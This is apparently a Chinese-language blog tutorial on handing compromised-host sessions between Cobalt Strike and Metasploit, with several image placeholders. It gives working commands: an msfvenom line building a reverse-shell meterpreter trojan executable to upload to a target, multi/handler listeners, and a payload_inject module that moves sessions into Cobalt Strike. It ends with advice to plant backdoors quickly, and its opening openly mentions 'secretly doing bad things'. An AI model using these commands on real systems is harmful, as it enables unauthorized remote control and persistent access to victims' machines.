








# 1. 前言

在日常渗透测试或者是你偷偷干坏事的时候，可能会发现，CS确实是一个强大的后渗透工具，但是奈何CS很多关于漏洞的功能都是只能检测，但是不能攻击，所以需要CS与MSF互相联动起来，这里我就利用一个永恒之蓝漏洞来

# 2. CS联动MSF

CS联动MSF，主要是将CS的会话移交给MSF。

## 2.1. 案例测试

CS上各种插件只能漏洞检测，并不能对漏洞进行利用，所以可以将CS的会话迁移给MSF来进行利用，这里前期的操作就是不介绍了。

这里还需要注意CS4.5好像联动有问题，这里建议换成4.7.2以上，同时还有一个问题就是，本地测试使用4.7也没什么问题，但是如果在实际的攻防中最好使用4.7.2以上版本，4.7是存在xss漏洞的，容易被反制。

### 2.1.1. CS设置联动监听器

这里设置联动监听器，一定要按照下面的配置来配置，名字一定要记录下来，后面会使用到。



### 2.1.2. CS设置联动MSF会话

这里截图不方便，我就口述一下，首先按照上面的步骤将监听器创建出来，然后选择一个上线的会话，点击新建会话，然后选择的监听器选择刚刚创建的MSF。

当然也可以使用命令来实现，命令后面的msf其实就是刚刚设置监听器的名称。

```
spawn msf
```



### 2.1.3. MSF设置监听

按照下面的输入，也可以看到会话是成功转移到msf上了。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http   ##这里一定不要输入错误，你上面监听器是http，那么这里就是http
set lhost 0.0.0.0
set lport 3010                  ##端口根据你自己的修改，我这里是3010
run
```





# 3. MSF联动CS

MSF联动CS，主要是将MSF的会话转移到CS上。

## 3.1. 案例测试

这里就从头来一下吧，利用MSF生成木马，让其上线然后在转交给CS。

### 3.1.1. MSF生成木马

这里生成一个木马，然后上传到目标主机上，主要要注意这个IP地址和端口别设置错了或者忘记了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX.XXX.XXXX.XX LPORT=4444 -f exe -o 123.exe
```



### 3.1.2. 设置监听

这里设置的监听，就是将上面的木马，再执行后能够建立会话。

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3000
exploit
```


### 3.1.3. CS设置监听

这里设置监听，由于是MSF主动去连接CS，所以这里设置反向连接即可。


### 3.1.4. MSF转移会话

到转移会话这里，主要就是将MSF刚刚木马上线的会话迁移到CS上。

```
use exploit/windows/local/payload_inject //使用该模块可以将 Metasploit 获取到的会话注入到CS中
set payload windows/meterpreter/reverse_http //和cs监听器保持一致
set prependmigrate true     #可以不设置，但是端口不要和CS冲突了。
set DisablePayloadHandler true  #可以不设置
set lhost XXXX.XXX.XXX.XX    //CS的IP
set lport XXX   //CS上的listen端口
set session 1   //要转发的session
run 
```





### 3.1.5. 查看上线

这里可以看到是成功上线了。



# 4. 其它

这里主要就是介绍如何迁移会话，迁移会话后尽量在条件允许的情况快，尽快建立起相应的后门，比如你MSF迁移到CS，迁移后尽快上传CS的木马，免得掉线或者不注意MSF被关闭了。

至于上线操作，想必应该都会。
